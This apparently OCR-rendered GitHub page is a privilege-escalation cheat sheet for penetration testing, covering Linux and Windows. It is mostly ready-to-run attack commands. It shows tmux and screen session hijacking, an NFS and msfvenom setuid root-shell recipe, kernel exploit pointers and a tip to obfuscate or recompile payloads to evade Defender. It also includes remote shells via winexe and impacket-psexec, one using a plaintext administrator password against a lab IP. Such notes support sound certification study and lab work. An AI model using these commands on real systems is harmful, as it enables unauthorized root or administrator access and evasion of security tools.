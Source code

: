 ```
Check for readable backup files (/root, /tmp, /var/backups, etc.)

If tmux is installed, check for any shell session that we can hijack
```
tmux ls; tmux attach -t tmuxname; screen -ls; screen-dr sessionname; byobu list-session;
```

If NFS is open, check for NFS shares and mount them

```showmount -e $RHOST; sudo mount -o rw,vers=2 $RHOST:$SHAREDFOLDER /tmp/NFS``` \
On local Kali machine, as root, generate an exec payload ```msfvenom -p linux/x86/exec -f elf CMD="/bin/bash -p" > shell.elf``` \
Set permission bits: ```chmod +xs /tmp/NFS/shell.elf``` \
Run the payload on target machine => root acquired

**If MySQL is running on host as root -> potential UDF prives, check out Banzai@OSPG write up**


**Check for any Linux capabilities (e.g: set_uid capabilities):** \
E.g: openssl capablities: \
https://www.bytefellow.com/linux-privilege-escalation-cheatsheet-for-oscp/#ftoc-exploiting-openssl-capability

Last resort: Kernel Exploit! Check with linPEAS output or ```uname -a``` (<4.8.3)\
If DirtyCow doesn't work, try googling with the specific kernel version.

https://casvancooten.com/posts/2020/05/oscp-cheat-sheet-and-command-reference/#privilege-escalation \
https://in.security/lin-security-walkthrough/ \
https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/ \
https://steflan-security.com/?p=283 \
https://book.hacktricks.xyz/linux-unix/privilege-escalation


## Windows Privilege Escaltion/Post Exploitation

**Check permission with** ```whoami /all```

**Execute command under another user with stored credentials:** ```runas /user:$USERNAME /savecred "$COMMAND HERE"```

**Check general host information with** ```systeminfo; net users; net localgroups; netstat -ano; ipconfig /all; tasklist```

**Check C:\Users\$USER\AppData folder**

**Auto enumerate with (enum script of choice here:)** ```winPEAS.exe```

**If the payload is blocked by Defender, besides trying to encode and obfuscate it, consider try a custom one and re-compile the executable**

**Check loaded libraries --> potential DLL hijacking <-- need to restart the service/reboot the machine**

**Execute command remotely on Remote Windows target via SMB Creds with winexe or psexec.py from Local Kali machine**
```
winexe -U 'user%password' //$RHOST powershell.exe
winexe -U 'administrator%u6!4ZwgwOM#^OBf#Nwnh' //10.10.10.97 powershell.exe
```
```
impacket-psexec $USERNAME:'$PASSWORD'@$RHOST powershell
```

```